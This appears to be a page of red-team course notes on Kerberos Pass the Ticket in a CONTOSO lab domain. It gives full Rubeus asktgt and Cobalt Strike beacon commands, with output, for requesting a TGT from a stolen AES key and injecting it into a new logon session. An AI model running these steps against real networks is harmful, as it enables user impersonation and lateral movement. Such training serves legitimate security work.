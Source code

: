 
_Pass the Ticket_ (or PtT), is a technique [T1550.003](https://attack.mitre.org/techniques/T1550/003/) that allows an adversary to leverage stolen, forged, or requested Kerberos tickets for user impersonation.  As with PtH, this can be implemented in different ways.  Tools like Impacket implement the Kerberos protocol for remote authentication, and tools like Rubeus inject tickets into the credential cache of a given logon session.

PtT is superior to PtH in a few important aspects.  Kerberos authentication is not anomalous, nor is it restricted as with NTLM; and passing tickets into a logon session can be done with native Windows APIs, so it does not rely on patching LSASS memory.  This makes it more stealthy, and isn't prevented by PPL.

### Requesting TGTs

We already saw in the [Credential Access](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops&unit=67851a86ba9789af1107f5f9) section how Kerberos tickets can be extracted from memory.  But the adversary can also legitimately request Kerberos tickets on behalf of a user if they have their NTLM hash or AES encryption keys.  Using an NTLM hash will return RC4-encrypted tickets, which is generally not advisable.

Rubeus' `asktgt` command can be used with a user's AES key.  This will return a ticket in base64 encoded format.

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:rsteel /domain:CONTOSO.COM /aes256:05579261e29fb01f23b007a89596353e605ae307afcd1ad3234fa12f94ea6960 /nowrap

[*] Action: Ask TGT

[*] Using aes256_cts_hmac_sha1 hash: 05579261e29fb01f23b007a89596353e605ae307afcd1ad3234fa12f94ea6960
[*] Building AS-REQ (w/ preauth) for: 'CONTOSO.COM\rsteel'
[*] Using domain controller: 10.10.120.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFo[...snip...]kNPTQ==

  ServiceName              :  krbtgt/CONTOSO.COM
  ServiceRealm             :  CONTOSO.COM
  UserName                 :  rsteel (NT_PRINCIPAL)
  UserRealm                :  CONTOSO.COM
  StartTime                :  17/02/2025 13:18:21
  EndTime                  :  17/02/2025 23:18:21
  RenewTill                :  24/02/2025 13:18:21
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  7ImgleIR6fnHZCxJW7MJUCabAjxvIsMS7Z55VRPaEHU=
  ASREP (key)              :  05579261E29FB01F23B007A89596353E605AE307AFCD1AD3234FA12F94EA696
```

## Injecting TGTs

Beacon has a `kerberos_ticket_use` command, which applies the given TGT to the current session.  The ticket must exist as a .kirbi file on the computer running the Cobalt Strike client.  If you have a base64 encoded ticket from Rubeus, you can write it to disk using PowerShell.

```powershell
$ticket = "doIFo[...snip...]kNPTQ=="
[IO.File]::WriteAllBytes("C:\Users\Attacker\Desktop\rsteel.kirbi", [Convert]::FromBase64String($ticket))
```

If you pass a TGT into a logon session that already has one, then you'll overwrite the existing ticket.  For example, if your Beacon is running in the context of pchilds and you inject a TGT for rsteel into the current session, pchilds' TGT will be replaced with rsteel's.  We want to avoid clobbering tickets as much as possible because, although we want to leverage the ticket, we don't want to impact the real user's access to services in the domain.

The optimal strategy is to create a new logon session that we can impersonate.  This lets us use the Kerberos ticket, without affecting a user's existing logon session.  Before doing so, this `klist` output shows our current LUID is **0x11f831e**.  It contains a TGT and LDAP service ticket for pchilds.

![[Pasted image 20250710224809.png]]

Create a new logon session using `make_token`, providing a fake password (this assumes that we don't know the user's plaintext password).

```powershell
beacon> make_token CONTOSO\rsteel FakePass
[+] Impersonated CONTOSO\rsteel (netonly)
```

Running `klist` again shows that our current LUID has changed, and there are no tickets in its cache.

![[Pasted image 20250710224949.png]]

Next, `kerberos_ticket_use` will inject the given ticket into this new session.

```powershell
beacon> kerberos_ticket_use C:\Users\Attacker\Desktop\rsteel.kirbi
```